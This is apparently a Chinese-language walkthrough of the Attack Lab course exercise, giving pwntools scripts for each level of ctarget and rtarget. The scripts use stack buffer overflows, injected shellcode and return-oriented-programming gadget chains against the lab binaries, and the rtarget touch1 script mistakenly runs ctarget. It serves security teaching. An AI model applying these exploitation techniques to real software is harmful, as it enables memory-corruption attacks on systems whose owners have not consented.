

## Attacklab Note

首先看下Attacklab的README.txt


机翻一下，大概意思是有两个题目，ctarget和rtarget，分别是代码注入的1-3关和ROP训练的4-5关

### ctarget

漏洞位置在Gets这个函数，没有检查输入个数，全部读取到dest也就是buf上。


传进来的buf大小为0x28个字节，超过0x28个字节会造成溢出，覆盖返回地址可以控制rip的跳转，在test函数中跳转到touch函数就能完成目标。


#### touch1

没什么条件，直接控制rip返回地址即可


touch1的地址为 0x4017C0


编写脚本

```
from pwn import *

context.log_level = "debug"

io = process(["./ctarget","-q"])
elf = ELF("./ctarget")

touch1_addr = 0x04017C0
payload = 0x28 * 'a' + p64(touch1_addr)

io.recv()
io.sendline(payload)
io.interactive()
```


#### touch2

第二题要求参数为文件夹中的cookie.txt，也就是题目上来就输出的cookie，根据调用约定，函数的第一个参数存放在rdi寄存器中，所以需要先把rdi寄存器置为cookie，然后再跳转过去，题目规定不能使用jmp，可以将地址压入栈中，然后再ret上去。


stable_launch函数将buf上的空间改成了rwx，所以可以通过写shellcode的方式，将返回跳转到shellcode上，然后执行rdi寄存器置为cookie，最后跳转。


栈顶地址为0x5561dc78，脚本如下：

```
from pwn import *

context.arch = "amd64"
context.os = "linux"
context.log_level = "debug"


io = process(["./ctarget","-q"])
elf = ELF("./ctarget")
gdb.attach(io)

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch2_addr = 0x4017EC
stack_top = 0x5561dc78

payload = asm("mov rdi,{0}".format(hex(cookie)))
payload += asm("push {0}".format(hex(touch2_addr)))
payload += asm("ret")
payload += (0x28 - len(payload)) * 'a'
payload += p64(stack_top)

io.recv()
io.sendline(payload)
io.interactive()
```


#### touch3

第三关主要多了个hexmatch函数，这个函数的功能是在栈上随机地址赋值，然后比较cookie的值，所以用刚才的方法不行，有可能会被覆盖掉。


可以直接在栈底，也就是test函数的栈内存放cookie，在覆盖返回地址后，继续将下一个栈覆盖成cookie的值，记录地址，在shellcode中把这个地址赋给rdi寄存器当作touch3函数的参数


脚本如下：

```
from pwn import *

context.arch = "amd64"
context.os = "linux"
context.log_level = "debug"


io = process(["./ctarget","-q"])
elf = ELF("./ctarget")
#gdb.attach(io)

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch3_addr = 0x04018FA
stack_top = 0x5561dc78
stack_second = 0x5561dca8

payload = asm("mov rdi,{0}".format(hex(stack_second)))
payload += asm("push {0}".format(hex(touch3_addr)))
payload += asm("ret")
payload += (0x28 - len(payload)) * 'a'
payload += p64(stack_top)
payload += hex(cookie)[2:]

io.recv()
io.sendline(payload)
io.interactive()
```


### rtarget

#### touch1

第一关和ctarget一样，直接贴脚本

```
from pwn import *

context.log_level = "debug"

io = process(["./ctarget","-q"])
elf = ELF("./ctarget")

touch1_addr = 0x04017C0
payload = 0x28 * 'a' + p64(touch1_addr)

io.recv()
io.sendline(payload)
io.interactive()
```



#### touch2

先用ROPgadget 找到一个pop rdi ret，来给rdi寄存器赋值，然后再跳转到touch2函数即可


脚本如下：

```
from pwn import *

context.log_level = "debug"

io = process(["./rtarget","-q"])
elf = ELF("./rtarget")

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch2_addr = 0x04017EC
pop_rdi = 0x040141b
payload = 0x28 * 'a' + p64(pop_rdi) + p64(cookie) + p64(touch2_addr)

io.recv()
io.sendline(payload)
io.interactive()
```


#### touch3

由于地址随机化的原因，栈的地址每次运行都会发生变化，所以不能像ctarget那样写入一个地址，需要利用ROP获取地址，可以先mov rax,rsp获取栈顶地址，然后在mov rdi,rax，lea rax,[rdi+rsi]，最后跳到touch3函数上


脚本如下：

```
from pwn import *

context.log_level = "debug"

io = process(["./rtarget","-q"])
elf = ELF("./rtarget")
gdb.attach(io)

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch3_addr = 0x04018FA
rdi_rax = 0x4019a2
rax_rsp = 0x401a06
pop_rsi = 0x401383
lea = 0x4019D6
payload = 0x28 * 'a' + p64(rax_rsp) + p64(rdi_rax) + p64(pop_rsi) + p64(0x30) + p64(lea) + p64(rdi_rax) + p64(touch3_addr) + hex(cookie)[2:]

io.recv()
io.sendline(payload)
io.interactive()
```

